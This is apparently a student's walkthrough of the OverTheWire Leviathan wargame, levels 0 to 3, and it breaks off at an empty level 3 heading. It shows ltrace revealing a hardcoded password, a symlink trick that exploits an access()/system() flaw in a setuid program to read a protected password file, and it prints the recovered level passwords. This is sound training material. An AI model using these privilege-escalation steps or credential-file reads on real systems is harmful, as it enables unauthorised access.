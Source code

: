 **Name** - Ruwindu De Silva

**SLIIT ID** - IT12044528

**Curtin ID** - 18297188

#Levoathan 0 to 1
In overthewire wargames site, leviathan 0 page provides the user name and password ro the leviathan 0

Using the "ls" command we can find there is another derectory called ".backup".
Inside of that there is a html file with full of text. So to retrieve the password we use cat command with grep by giveing a keyword as password.

Leviathan 1 pic

The password for the next level is **"rioGegei8m"**

#Bandit 1 to 2
We have retrived the password for this level in previous level.

Using "ls" command we found that there is an exicutable file and executed it. It has protected with password and probably it may contains the password for the next level. To check which function the executable runs we uses the command "ltrace". We can see it runs "strcmp()" function and it compare the user input with the string "sex" and that means the password for that is "sex".

It guids us to another session and by entering "whoami" it says that it is leviathan2. So by entering quick "cat" command we can find the password for the next level.

Leviathan 2 pic
```
leviathan1@melinda:~$ ls -al
total 28
drwxr-xr-x   2 root       root       4096 Nov 14  2014 .
drwxr-xr-x 167 root       root       4096 Jul  9 16:27 ..
-rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root       root       3637 Apr  9  2014 .bashrc
-rw-r--r--   1 root       root        675 Apr  9  2014 .profile
-r-sr-x---   1 leviathan2 leviathan1 7493 Nov 14  2014 check
leviathan1@melinda:~$ ./check
password: leviathan1
Wrong password, Good Bye ...
leviathan1@melinda:~$ ltrace ./check
__libc_start_main(0x804852d, 1, 0xffffd7a4, 0x80485f0 <unfinished ...>
printf("password: ")                             = 10
getchar(0x8048680, 47, 0x804a000, 0x8048642password: leviathan
)     = 108
getchar(0x8048680, 47, 0x804a000, 0x8048642)     = 101
getchar(0x8048680, 47, 0x804a000, 0x8048642)     = 118
strcmp("lev", "sex")                             = -1
puts("Wrong password, Good Bye ..."Wrong password, Good Bye ...
)             = 29
+++ exited (status 0) +++
leviathan1@melinda:~$ ./check
password: sex
$ whoami
leviathan2
$ cat /etc/leviatham
cat: /etc/leviatham: No such file or directory
$ cat /etc/levithan_pass/leviathan2
cat: /etc/levithan_pass/leviathan2: No such file or directory
$ cat /etc/leviathan_pass/leviathan2
ougahZi8Ta
$ ougahZi8Ta

```

The password for the next level is **"ougahZi8Ta"**

#Leviathan 2 to 3
We have located an executable file called printfile in the "/home/leviathan2". When we execute that it requires a text file to continue. So We creates a .txt file at /tmp/ans/ derectory and ryn the executable with ltrace. It shows that access() does is check permissions based on the process’ real user ID rather than the effective user ID. Using that vulnerability we get the password for the next level.

```
leviathan2@melinda:~$ ls -la
total 28
drwxr-xr-x   2 root       root       4096 Nov 14  2014 .
drwxr-xr-x 167 root       root       4096 Jul  9 16:27 ..
-rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root       root       3637 Apr  9  2014 .bashrc
-rw-r--r--   1 root       root        675 Apr  9  2014 .profile
-r-sr-x---   1 leviathan3 leviathan2 7498 Nov 14  2014 printfile
leviathan2@melinda:~$ ./printfile
*** File Printer ***
Usage: ./printfile filename
leviathan2@melinda:~$ mkdir /tmp/ans
leviathan2@melinda:~$ touch /tmp/ans/ans\ file.txt
leviathan2@melinda:~$ ls /tmp/ans
ans file.txt
leviathan2@melinda:~$ ltrace ./printfile /tmp/ans/ans\ file.txt
__libc_start_main(0x804852d, 2, 0xffffd784, 0x8048600 <unfinished ...>
access("/tmp/ans/ans file.txt", 4)               = 0
snprintf("/bin/cat /tmp/ans/ans file.txt", 511, "/bin/cat %s", "/tmp/ans/ans fil  e.txt") = 30
system("/bin/cat /tmp/ans/ans file.txt"/bin/cat: /tmp/ans/ans: No such file or d  irectory
/bin/cat: file.txt: No such file or directory
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 256
+++ exited (status 0) +++
leviathan2@melinda:~$
leviathan2@melinda:~$
leviathan2@melinda:~$ ln -s /etc/leviathan_pass/leviathan3 /tmp/ans/ans
leviathan2@melinda:~$ ls /tmp/ans
ans  ans file.txt
leviathan2@melinda:~$ ./printfile /tmp/ans/ans
You cant have that file...
leviathan2@melinda:~$ ./printfile /tmp/ans/ans\ file.txt
Ahdiemoo1j
/bin/cat: file.txt: No such file or directory
leviathan2@melinda:~$ ~/
-bash: /home/leviathan2/: Is a directory
leviathan2@melinda:~$ cd ~/
leviathan2@melinda:~$ pwd
/home/leviathan2
leviathan2@melinda:~$
```

Password for the next level is "Ahdiemoo1j"

#Leviathan 3 to 4



